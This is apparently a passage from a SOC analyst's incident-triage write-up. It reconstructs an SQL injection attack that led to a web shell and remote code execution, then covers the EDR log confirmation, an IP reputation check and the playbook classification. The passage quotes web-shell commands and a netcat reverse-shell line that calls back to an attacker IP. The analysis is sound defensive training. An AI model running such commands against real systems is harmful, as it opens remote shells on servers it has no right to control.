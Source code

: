 **Stage 3: Command Execution via Web Shell**
The attacker immediately began using their newly created web shell to run commands.
*   **Request:** `.../cmd.php?cmd=whoami`
*   **Response:** **`200 OK`**
*   **Explanation:** The attacker sent a GET request to their web shell and passed the `whoami` command via the `cmd` parameter. The `200 OK` response confirms the web shell executed the command and returned the output.
    <img width="852" height="271" alt="image" src="https://github.com/user-attachments/assets/4162cd41-39e6-409d-b1da-ffce93146e02" />
*   **Further Commands:** The attacker followed up with an `id` command, continuing their reconnaissance.
    <img width="836" height="299" alt="image" src="https://github.com/user-attachments/assets/b6301d73-24e6-463f-b81a-015899559b90" />

**Stage 4: Reverse Shell and Full RCE**
The attacker's final goal was to establish a stable, interactive shell.
*   **Request:** `.../cmd.php?cmd=nc 101.32.223.119 1234 -e /bin/sh`
*   **Explanation:** The attacker used the web shell to execute a `netcat` (`nc`) command. This command instructs the compromised server (`SQLServer`) to connect back to the attacker's IP (`101.32.223.119`) on port `1234` and to pipe a shell (`/bin/sh`) through that connection. This is a classic reverse shell, giving the attacker full, interactive RCE.
    <img width="784" height="315" alt="image" src="https://github.com/user-attachments/assets/14b0909a-4c4b-4bf0-a1d8-81eca4da8a68" />

### 2. Confirmation via Endpoint Logs

EDR logs provide the final, definitive proof of compromise.
*   **Endpoint Logs:** The logs show the `netcat` (`nc`) command being executed on the `SQLServer`. Most importantly, they show an outbound network connection from the server to the attacker's IP, `101.32.223.119`. This confirms the reverse shell was successfully established.
    <img width="1067" height="65" alt="image" src="https://github.com/user-attachments/assets/231da47e-bc3d-40ba-a879-61af27ba3b22" />
    <img width="1129" height="169" alt="image" src="https://github.com/user-attachments/assets/b6bc0350-090e-4994-a227-187915db3f5a" />

### 3. Threat Intelligence

The attacker's IP `101.32.223.119` is a known bad actor with over 600 reports on AbuseIPDB, confirming the hostile nature of the activity.

<img width="1505" height="729" alt="image" src="https://github.com/user-attachments/assets/85a6fc06-7a2b-4630-8caf-b5bf07521add" />

## Skills and Tools Utilized

*   **Tools Used:** SIEM, EDR, Web Server Logs, AbuseIPDB
*   **Skills Demonstrated:** SQL Injection Analysis, Web Shell Triage, RCE Analysis, Attack Chain Reconstruction, Log Correlation.

## Playbook Solution: Incident Classification

*   **Is Traffic Malicious?** **Yes.** It is a successful SQLi to RCE attack chain.
*   **What Is The Attack Type?** **SQL Injection** followed by **Remote Code Execution.**
*   **Was the Attack Successful?** **Yes.** The attacker successfully uploaded a web shell and established a reverse shell.
*   **Do You Need Tier 2 Escalation?** **Yes.** A full server compromise is a critical incident.
*   **Incident Classification:** **True Positive.**
